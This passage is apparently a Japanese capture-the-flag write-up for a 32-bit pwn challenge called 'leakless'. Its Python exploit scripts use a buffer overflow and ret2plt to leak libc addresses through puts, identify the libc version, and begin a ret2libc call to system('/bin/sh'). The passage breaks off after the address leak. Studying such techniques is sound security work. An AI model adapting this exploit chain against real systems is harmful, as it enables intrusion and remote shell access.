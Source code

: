 ということで、ret2pltで例えば`puts(read@got)`を呼び出せば`read`関数のアドレスが分かります。
この要領で2つの関数のアドレスを読み出してみましょう。
```python
from ptrlib import *

sock = Socket("localhost", 2002)
elf = ELF("./leakless")

plt_puts = 0x080483f0
rop_pop_ebx = 0x080483ad

payload = b"A" * 0x4c
payload += p32(plt_puts)
payload += p32(rop_pop_ebx)
payload += p32(elf.got("read"))
payload += p32(plt_puts)
payload += p32(rop_pop_ebx)
payload += p32(elf.got("signal"))
sock.send(payload)

addr_read = u32(sock.recvline()[:4])
addr_signal = u32(sock.recvline()[:4])
print(hex(addr_read))
print(hex(addr_signal))

sock.close()
```
こんな感じで`read`と`signal`のアドレスが取得できました。
```
$ python solve1.py
[+] Socket: Successfully connected to localhost:2002
0xf760b180
0xf75536d0
[+] close: Connection to localhost:2002 closed
```

これを元にlibc databseから、使われているlibcのバージョンを特定します。

[https://libc.blukat.me/](https://libc.blukat.me/)

今回は`libc6_2.26-0ubuntu2.1_i386`がヒットしました。
ということでこれをダウンロードして、あとは`system('/bin/sh')`を実行しましょう。

```python
from ptrlib import *

sock = Socket("localhost", 2002)
elf = ELF("./leakless")
libc = ELF("./libc6_2.26-0ubuntu2.1_i386.so")

plt_puts = 0x080483f0
rop_pop_ebx = 0x080483ad

payload = b"A" * 0x4c
payload += p32(plt_puts)
payload += p32(rop_pop_ebx)
payload += p32(elf.got("read"))
payload += p32(elf.symbol('feedme'))
sock.send(payload)

addr_read = u32(sock.recvline()[:4])
libc_base = addr_read - libc.symbol("read")
addr_system = libc_base + libc.symbol("system")
addr_binsh  = libc_base + next(libc.find("/bin/sh"))
addr_exit   = libc_base + libc.symbol("exit")
dump("<read> = " + hex(addr_read))
```